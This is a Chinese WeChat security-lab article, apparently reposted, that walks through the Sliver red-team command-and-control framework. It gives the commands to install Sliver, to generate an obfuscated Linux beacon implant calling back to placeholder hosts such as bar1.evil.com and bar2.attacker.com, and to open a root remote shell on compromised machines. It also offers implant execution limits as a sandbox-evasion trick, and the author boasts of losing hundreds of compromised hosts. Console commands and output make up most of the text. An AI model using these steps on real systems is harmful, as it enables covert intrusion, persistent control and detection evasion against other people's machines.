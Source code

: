 #  遥遥领先!红队C2(sliver)实战

[ NGC660安全实验室 ](javascript:void\(0\);)

**NGC660安全实验室** ![]()

微信号 NGC660_Team

功能介绍
NGC660安全实验室，致力于网络安全攻防、WEB渗透、内网渗透、代码审计、CTF比赛、红蓝对抗、应急响应、安全架构等技术干货。性痴则其志凝，故书痴者文必工，艺痴者技必良。

____

___发表于_

收录于合集

以下文章来源于X安全实验室 ，作者a16

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM778aF1fcOWhIkof61YxTGeOic5miaQSSfhQ3FUPHZVHJbg/0)
**X安全实验室** .

一二线大厂|实习|内推|安服|渗透|后端|运维|国护|省护|攻防演练|红队|蓝队|分享渗透测试技巧、代码审计，漏洞分析，最新威胁情报，涵盖AI、区块链等领域。保护数字世界，共筑坚不可摧堡垒。网络安全爱好者与普通用户皆欢迎

## 0x0前言

使用sliver已经有一年多，因为cs对linux有天生的不兼容，许多功能无法使用，所有笔者找了一款可以平替cs的红队C2。在经过长时间的使用sliver，决定写一篇关于sliver的文章。

先附几张使用截图。

![]()

![]()

## 0x1安装

推荐使用Debian11+ 。有能力直接看官方文档，跳过本章。

这是项目的官方地址https://github.com/BishopFox/sliver

先安装mingw-w64

    
    
    apt install git mingw-w64  
    
    
    
    curl https://sliver.sh/install|sudo bash  
    

记得给权限。

如果遇到下列报错

    
    
    gpg: directory '/root/.gnupg' created  
    gpg: keybox '/root/.gnupg/pubring.kbx' created  
    gpg: /root/.gnupg/trustdb.gpg: trustdb created  
    gpg: key 7DF912404449039C: public key "Sliver <sliver@bishopfox.com>" imported  
    gpg: error running '/usr/bin/gpg-agent': probably not installed  
    gpg: failed to start agent '/usr/bin/gpg-agent': Configuration error  
    gpg: can't connect to the agent: Configuration error  
    gpg: Total number processed: 1  
    gpg:               imported: 1  
    

得先安装gnupg-agent

    
    
    apt install gnupg-agent  
    

类似CS，sliver支持多人模式，这里不过多介绍。

安装完成之后是这个样子，可以直接sliver启动。当然也可以去官方下载二进制文件直接启动，但是我推荐脚本安装。

![]()

## 0x2生成木马

这里有两种模式。一种是session模式
，一次使用，退出或者断连后无法回连。笔者在第一次使用的时候就是使用了这个模式导致服务器重启之后，丢了几百台权限，因为过于垃圾，这里不介绍这个模式。另外一种就是beacon，笔者强烈推荐，直接免杀。

sliver还支持一个木马同时多个协议上线。

    
    
    generate --os linux --mtls example.com,domain.com --http bar1.evil.com,bar2.attacker.com --dns baz.bishopfox.com  
      
    

比如上面这个命令生成的木马，会以轮播循环的形式对3种协议进行通信。

![]()

    
    
    sliver > generate   
      
    [!] Must specify at least one of --mtls, --wg, --http, --dns, --named-pipe, or --tcp-pivot   ##支持多种协议上线，笔者喜欢第一种mtls  
    sliver > mtls -l 60001 ##首先mtls -60001 开启一个监听端口  
      
    [*] Starting mTLS listener ...  
      
    [*] Successfully started job #1  
      
    sliver > jobs ##查看当前监听端口  
      
     ID   Name   Protocol   Port    Stage Profile   
    ==== ====== ========== ======= ===============  
     1    mtls   tcp        60001  
    
    
    
    sliver > generate --mtls xxx.xxx.store:60001 --os linux --max-errors 99999 beacon   
    ##生成beacon  
      
    [*] Generating new linux/amd64 beacon implant binary (1m0s)  
    [*] Symbol obfuscation is enabled  
    [*] Build completed in 2m25s  
    [*] Implant saved to /root/FIT_REFLECTION  ##存放路径  
      
    

## 0x3上线

直接看图比较容易理解。

![]()

    
    
    sliver (FIT_REFLECTION) > beacons   
      
     ID         Name             Tasks   Transport   Remote Address         Hostname    Username   Operating System   Locale   Last Check-In                              Next Check-In                              
    ========== ================ ======= =========== ====================== =========== ========== ================== ======== ========================================== ==========================================  
     ac0261bd   FIT_REFLECTION   0/1     mtls        104.xxx.xxx.xxx:34194   root       linux/amd64        en-US    Thu Sep 21 02:58:01 PDT 2023 (5m41s ago)   Thu Sep 21 02:59:04 PDT 2023 (4m38s ago)   
     a954c643   FIT_REFLECTION   0/0     mtls        104.xxx.xxx.xxx:51690   root       linux/amd64        en-US    Thu Sep 21 03:03:32 PDT 2023 (10s ago)     Thu Sep 21 03:04:55 PDT 2023 (in 1m13s)    
      
    sliver (FIT_REFLECTION) > beacons  
      
     ID         Name             Tasks   Transport   Remote Address         Hostname    Username   Operating System   Locale   Last Check-In                              Next Check-In                              
    ========== ================ ======= =========== ====================== =========== ========== ================== ======== ========================================== ==========================================  
     ac0261bd   FIT_REFLECTION   0/1     mtls        104.xxx.xxx.xxx:34194      root       linux/amd64        en-US    Thu Sep 21 02:58:01 PDT 2023 (5m46s ago)   Thu Sep 21 02:59:04 PDT 2023 (4m43s ago)   
     a954c643   FIT_REFLECTION   0/0     mtls        104.xxx.xxx.xxx:51690   root       linux/amd64        en-US    Thu Sep 21 03:03:32 PDT 2023 (15s ago)     Thu Sep 21 03:04:55 PDT 2023 (in 1m8s)     
      
    sliver (FIT_REFLECTION) > use a954c643-052d-4b8d-be3e-b9b58803ddec  
      
    [*] Active beacon FIT_REFLECTION (a954c643-052d-4b8d-be3e-b9b58803ddec)  
      
    sliver (FIT_REFLECTION) > interactive   
      
    [*] Using beacon's active C2 endpoint: mtls://xxx.xxx.xxx:60001  
    [*] Tasked beacon FIT_REFLECTION (4fce7853)  
      
    [*] Session a7693931 FIT_REFLECTION - 104.xxx.xxx.xxx:32808 () - linux/amd64 - Thu, 21 Sep 2023 03:04:56 PDT  
      
    sliver (FIT_REFLECTION) > sessions   
      
     ID         Name             Transport   Remote Address         Hostname    Username   Operating System   Locale   Last Message                             Health    
    ========== ================ =========== ====================== =========== ========== ================== ======== ======================================== =========  
     a7693931   FIT_REFLECTION   mtls        xxx.xxx.xxx:32808   root       linux/amd64        en-US    Thu Sep 21 03:04:56 PDT 2023 (20s ago)   [ALIVE]   
      
    sliver (FIT_REFLECTION) > use a7693931-b628-48d8-8614-b08e0c6e8c88  
      
    [*] Active session FIT_REFLECTION (a7693931-b628-48d8-8614-b08e0c6e8c88)  
      
    sliver (FIT_REFLECTION) > shell  
      
    ? This action is bad OPSEC, are you an adult? Yes  
      
    [*] Wait approximately 10 seconds after exit, and press <enter> to continue  
    [*] Opening shell tunnel (EOF to exit) ...  
      
    [*] Started remote shell with pid 8907  
      
    root@xxx:~#  
    

## 0x4总结

其实在写这篇文章的时候，意外发现一个过沙箱的思路，

    
    
    -w, --limit-datetime string：限制在指定日期时间之前执行  
    -x, --limit-domainjoined：限制在域加入的计算机上执行  
    -F, --limit-fileexists string：限制在具有文件系统中的指定文件的主机上执行  
    -z, --limit-hostname string：限制在指定的主机名上执行  
    -L, --limit-locale string：限制在与此区域设置匹配的主机上执行  
    -y, --limit-username string：限制在指定的用户名上执行  
    

这是beacon支持的参数，这不就是配合免杀妥妥的自带绕过沙箱的功能么？大家可以参考。笔者觉得sliver对比cs的优势在于，沙箱绕过，多种协议并存通信，同时也支持DLL,EXE,等三大主流系统，并且隐蔽性比cs好太多。其实这个还可以一键迁移进程内存加载shellcode，这里先不讨论。有机会下篇文章发。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

